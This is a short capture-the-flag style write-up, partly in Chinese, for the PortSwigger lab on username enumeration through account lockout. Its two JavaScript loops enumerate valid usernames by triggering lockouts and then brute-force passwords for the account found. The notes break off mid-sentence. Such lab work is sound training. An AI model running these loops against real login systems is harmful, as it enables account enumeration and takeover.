 ## Lab: Username enumeration via account lock

| Dimension | Description                                                                                                  |
| --------- | ------------------------------------------------------------------------------------------------------------ |
| Document  | https://portswigger.net/web-security/authentication/password-based#account-locking                           |
| Lab       | https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-account-lock |

測試同一個 valid 帳號連續錯誤 5 次就會鎖

```js
async function main() {
  for (const username of usernames) {
    for (const password of passwords.slice(0, 1)) {
      await login(username, password);
      await login(username, password);
      await login(username, password);
      await login(username, password);
      const response = await login(username, password);
      // custom logic here
      const text = await response.text();
      const isInvalid = text.includes("Invalid username or password.");
      console.log({ username, password, isInvalid });
      if (!isInvalid) {
        console.log(username, "isValid");
        return;
      }
    }
  }
}
```

來猜密碼

```js
async function main() {
  for (const username of ["agenda"]) {
    for (const password of passwords) {
      const response = await login(username, password);
      // custom logic here
      const text = await response.text();
      const isInvalid = text.includes("Invalid username or password.");
      console.log({ username, password, isInvalid });
      if (!isInvalid) {
        console.log(username, "isValid");
        return;
      }
    }
  }
}
```

第 4 次的時候停下來了，錯誤訊息是
